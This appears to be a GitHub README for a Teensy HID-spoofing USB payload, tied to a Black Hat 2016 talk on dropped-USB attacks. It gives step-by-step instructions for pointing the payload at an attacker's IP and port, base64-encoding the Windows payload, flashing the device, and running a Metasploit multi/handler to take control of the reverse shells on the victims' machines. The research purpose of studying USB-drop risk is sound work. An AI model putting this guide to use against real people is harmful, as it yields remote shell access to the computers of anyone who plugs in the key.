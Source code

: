 <div dir=rtl><p>مراقب usb ها ی که در زمین هستند باشیم // این ساختارها میتونن ابزاری برای نفوذ به سیستم های شما باشن </p></div>
#HID spoofing multi-OS payload for Teensy

This code allows to create a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OSX.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](https://www.elie.net/publication/does-dropping-usb-drives-really-work) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/malus)

# Environment setup

To get the payload working you need:
1. A Teensy. You can get one from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html) directly
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/malus)

# Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
## Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

## Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.sh** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the *OSX_PAYLOAD_STR* string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.ps** and replace the constant IP and PORT with the one from your server
  4. Compress and encode it with: `cat payload | gzip -c | base64`
  5. Replace the *WIN_PAYLOAD_STR* string in the **payload/payload.c** with the output of the previous command. The *WIN_PAYLOAD_STR* string is in the middle of the Windows payload.

# Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulation your Teensy is ready to go.


# Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

# Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```
